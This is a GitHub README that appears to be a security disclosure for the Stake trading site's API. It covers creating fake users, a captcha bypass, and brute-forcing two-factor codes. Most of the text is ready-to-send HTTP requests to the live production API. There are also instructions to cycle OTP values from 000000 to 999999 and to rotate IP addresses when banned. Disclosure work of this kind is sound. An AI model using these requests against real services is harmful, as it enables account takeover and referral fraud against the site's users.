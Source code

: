 # StakeOver ![Dragon Eye Intelligence][DEI]
[DEI]:https://github.com/dragoneyeintel/A-Comparative-Analysis-of-Digital-Forensic-Platform-Artifact-Recovery-Capabilities/blob/fdb3456cadce1303e2183c607c3688c0f82f0bb3/imgs/badge.png

(2/9/2022) 

The [Stake](https://hellostake.com/) stock trading website is accessed through a mismanaged and insecure custom API. Manipulation of requests allow an attacker to:
1) Create any number of falsified users on the website
2) Tie all of these users to referal codes during "Sign Up"
3) Bypass Captcha Prompts
4) Bruteforce Two-Factor Authentication

After finding a number of vulnerabilities on the Stake website, without any intrusive exploitation, the security team decided to personally reach out on discord. A full audit of this site would likely introduce a number of much more serious issues as I did not perform any intrusive auditing. These issues have all been brought to the attention of the Stake security team and disclosed responsibly.

## Requests
Bypassing Captcha:
Simply append the `"captcha":"captchaIgnore"` option in any request body.

<p align="center">
  <img width="800" height="400" src="https://github.com/dragoneyeintel/StakeOver/raw/main/CreateUsersUnderEmailSkipCaptcha.gif">
</p>

Forging Users:
```
POST /api/users/createuser/ HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 355
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"marketingOptIn":true,"cvmAcceptance":null,"emailAddress":"noot@nootnoot.io",
"password":"Password12345$","captcha":"catpchaIgnore","username":"FakeUser","guestUserId":null,"regionIdentifier":"AUS","firstName":"noot","lastName":"LastName","marketingTitle":null,"campaign":null,"channel":null,"referringLink":null,"feature":null,"influencerClickId":null}
```

The user verification link will be sent to the email not the username although the website will prompt "Sending to username". This is not a problem however as 2FA can be bypassed.

<p align="center">
  <img width="800" height="400" src="https://github.com/dragoneyeintel/StakeOver/raw/main/Bypass2FA.gif">
</p>

Two-Factor Authentication Bruteforce:
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"nootnootalakazam@protonmail.com","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3"}
```
Will send a one time password to the email associated with the username. 
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"noot@nootnoot.io","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3","otp":"772335"}
```
Will attempt to verify the OTP. Inctiment the OTP from 000000-999999 until one works. Every 10,000 requests (aprox) the IP is banned and should be changed. When a request status 200 is identified, the user has logged in suessfully.

[@nootsploit](https://twitter.com/nootsploit)

https://dragoneyeintel.com
